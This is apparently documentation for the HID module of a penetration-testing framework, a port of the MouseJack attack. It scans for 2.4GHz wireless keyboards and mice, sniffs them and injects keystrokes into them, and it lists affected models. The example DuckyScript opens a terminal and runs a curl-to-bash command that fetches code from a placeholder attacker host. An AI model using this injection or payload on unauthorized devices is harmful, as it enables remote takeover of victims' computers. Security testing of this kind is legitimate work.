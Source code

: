 ```yaml
---
title: HID on 2.4Ghz
description: This module, which is a port of Bastille's mousejack attack, performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's RFStorm firmware.
sidebar:
  order: 4
---
```


This module, which is a port of [Bastille's mousejack attack](https://www.mousejack.com/), performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's [RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware).

The module will work with one of the devices supported by RFStorm:

- CrazyRadio PA USB dongle
- SparkFun nRF24LU1+ breakout board
- Logitech Unifying dongle (model C-U0007, Nordic Semiconductor based)

:::caution
In order for this module to work, you need to make sure you installed the [Bastille’s RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware) on one of the supported devices.

:::

Once flashed with the proper firmware and connected to your computer, `dmesg` should report the device as:

```
usb 3-1.3: new full-speed USB device number 8 using xhci_hcd
usb 3-1.3: New USB device found, idVendor=1915, idProduct=0102
usb 3-1.3: New USB device strings: Mfr=1, Product=2, SerialNumber=0
usb 3-1.3: Product: Research Firmware
usb 3-1.3: Manufacturer: RFStorm
```

The attack is known to support detection and [DuckyScript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) injection for the following devices:

- Microsoft Wireless Keyboard 800
- Microsoft Wireless Mouse 1000
- Microsoft Wireless Mobile Mouse 3500
- Microsoft All-In-One Media Keyboard
- Microsoft Sculpt Ergonomic Mouse
- Logitech Wireless Touch Keyboard K400r
- Logitech Marathon M705 Mouse
- Logitech Wave M510 Mouse
- Logitech Wireless Gaming Mouse G700s
- Logitech Wireless M325 Mouse
- Logitech K750 Wireless Keyboard
- Logitech K320 Wireless Keyboard
- Dell KM636 Wireless Mouse and Keyboard
- AmazonBasics MG-0975 Wireless Mouse

### Commands

#### `hid.recon on`

Start scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.recon off`

Stop scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.clear`

Clear all devices collected by the HID discovery module.

#### `hid.show`

Show a list of detected HID devices on the 2.4Ghz spectrum.

#### `hid.sniff ADDRESS`

Start sniffing a specific ADDRESS in order to collect payloads, use 'clear' to stop collecting.

#### `hid.inject ADDRESS LAYOUT FILENAME`

Parse the DuckyScript `FILENAME` and inject it as HID frames spoofing the device `ADDRESS`, using the `LAYOUT` keyboard mapping (available layouts: `BE BR CA CH DE DK ES FI FR GB HR IT NO PT RU SI SV TR US`).

:::note
The command `hid.inject` does not require the HID device to be visible via the `hid.show` command. If you know the address of the dongle already, you can simply set the `hid.force.type` parameter to one among `logitech` (the default value), `amazon` or `microsoft` and run the injection _"blindly"_.

:::

### Parameters

| Parameter          | Default    | Description                                                                                                                                                                                                                    |
| ------------------ | ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `hid.force.type`   | `logitech` | If the device is not visible (if you want to talk directly to a dongle without connected devices) or its type has not being detected, force the device type to this value. Accepted values: `logitech`, `amazon`, `microsoft`. |
| `hid.hop.period`   | `100`      | Time in milliseconds to stay on each channel before hopping to the next one.                                                                                                                                                   |
| `hid.lna`          | `true`     | If true, enable the LNA power amplifier for CrazyRadio devices.                                                                                                                                                                |
| `hid.ping.period`  | `100`      | Time in milliseconds to attempt to ping a device on a given channel while in sniffer mode.                                                                                                                                     |
| `hid.show.filter`  |            | Defines a regular expression filter for `hid.show`.                                                                                                                                                                            |
| `hid.show.limit`   | `0`        | Defines limit for `hid.show`.                                                                                                                                                                                                  |
| `hid.show.sort`    | `mac desc` | Defines sorting field (mac, seen) and direction (asc or desc) for `hid.show`.                                                                                                                                                  |
| `hid.sniff.period` | `500`      | Time in milliseconds to automatically sniff payloads from a device, once it's detected, in order to determine its type.                                                                                                        |
| `hid.ttl`          | `1200`     | Seconds of inactivity to consider a device as not in range.                                                                                                                                                                    |

### Examples

Enable HID discovery, use the `ticker` module to display detected devices, wait for the device `32:26:9f:a4:08` to be detected and inject the `ducky.txt` script as HID frames using the US keyboard layout:

```bash
set ticker.commands clear; hid.show; events.show 10
hid.recon on
ticker on
# ... wait for the device to be detected, using `hid.show` ...
hid.inject 32:26:9f:a4:08 US ducky.txt
```

Send the `ducky.txt` script keystrokes to the dongle with address `32:26:9f:a4:08` forcing its type to `logitech` and without waiting for any connected device to be visible:

```bash
set hid.force.type logitech
hid.recon on
hid.inject 32:26:9f:a4:08 US ducky.txt
```

Example `ducky.txt` (for a complete list of available commands [see the documentation](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)):

```bash
GUI SPACE
DELAY 200
STRING Terminal
ENTER
DELAY 500
STRING curl -L http://www.evilsite.com/commands.sh | bash
ENTER
```

Hacking Logitech devices:

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/TdPRYWkYarM"
  frameborder="0"
  allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
  allowfullscreen
></iframe>
